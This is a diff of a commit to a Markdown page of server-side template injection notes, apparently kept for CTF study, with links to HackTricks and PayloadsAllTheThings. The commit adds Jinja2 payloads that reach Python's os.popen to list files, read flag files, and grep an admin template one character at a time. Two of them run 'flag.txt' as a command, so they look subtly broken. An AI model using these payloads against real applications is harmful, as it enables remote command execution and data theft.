

Before and after one commit to CoderZonora/Cryptonite_Web, a Markdown page: Others/SSTI.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Others/SSTI.md
+++ b/Others/SSTI.md
@@ -161,6 +161,16 @@ Razor (.Net):
 
 ```
 
+Some payloads used earlier:
+
+{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}} - Gives list of files in directory
+
+{{request.application.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}
+
+{{__self__.__init__.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}
+
+{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}
+
 Further Refrences:
 https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
 https://github.com/swisskyrepo/PayloadsAllTheThings
````
Also changed, not shown: Others/tree.png (added).
